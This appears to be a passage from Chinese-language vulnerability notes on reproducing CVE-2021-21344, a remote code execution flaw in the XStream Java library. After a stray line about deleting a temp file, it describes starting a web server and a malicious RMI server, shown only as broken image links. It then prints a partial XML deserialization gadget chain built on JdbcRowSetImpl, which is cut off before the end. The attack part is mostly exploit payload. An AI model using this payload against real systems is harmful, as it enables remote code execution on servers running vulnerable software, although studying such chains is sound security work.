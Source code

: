 ![image-20220518170338435](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220518170338435.png)

这里判断tempFile只要部位空则删除，否则就打印文件不存在

# CVE-2021-21344远程代码执行漏洞

## 漏洞复现

起一个web服务

![image-20220518172336194](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220518172336194.png)

起一个恶意的rmi

![image-20220518172349275](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220518172349275.png)

POC

```xml
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
                <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
                    <packet>
                        <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
                            <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                                    <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                                        <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                                            <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                                            <uriProperties/>
                                            <attributeProperties/>
                                            <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                                                <getter>
                                                    <class>com.sun.rowset.JdbcRowSetImpl</class>
                                                    <name>getDatabaseMetaData</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName/>
                                        <context>
                                            <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                                                <outer-class reference='../..'/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
```